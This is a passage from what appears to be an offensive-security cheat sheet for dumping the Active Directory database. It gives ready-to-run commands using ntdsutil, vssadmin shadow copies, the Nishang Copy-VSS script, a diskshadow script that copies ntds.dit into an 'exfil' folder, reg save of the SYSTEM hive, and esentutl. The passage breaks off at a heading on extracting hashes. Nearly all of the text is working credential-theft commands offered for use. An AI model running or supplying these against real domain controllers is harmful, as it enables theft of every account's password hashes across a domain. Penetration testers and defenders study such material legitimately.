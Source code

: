 or

```powershell
ntdsutil "ac i ntds" "ifm" "create full c:\temp" q q
```

### Using Vshadow

```powershell
vssadmin create shadow /for=C :
Copy Shadow_Copy_Volume_Name\windows\ntds\ntds.dit c:\ntds.dit
```

You can also use the Nishang script, available at : https://github.com/samratashok/nishang

```powershell
Import-Module .\Copy-VSS.ps1
Copy-VSS
Copy-VSS -DestinationDir C:\ShadowCopy\
```

### Using vssadmin

```powershell
vssadmin create shadow /for=C:
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\NTDS\NTDS.dit C:\ShadowCopy
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SYSTEM C:\ShadowCopy
```

### Using DiskShadow (a Windows signed binary)

```powershell
diskshadow.txt contains :
set context persistent nowriters
add volume c: alias someAlias
create
expose %someAlias% z:
exec "cmd.exe" /c copy z:\windows\ntds\ntds.dit c:\exfil\ntds.dit
delete shadows volume %someAlias%
reset

then:
NOTE - must be executed from C:\Windows\System32
diskshadow.exe /s  c:\diskshadow.txt
dir c:\exfil
reg.exe save hklm\system c:\exfil\system.bak
```

### Using esentutl.exe

Copy/extract a locked file such as the AD Database

```powershell
esentutl.exe /y /vss c:\windows\ntds\ntds.dit /d c:\folder\ntds.dit
```

### Extract hashes from ntds.dit
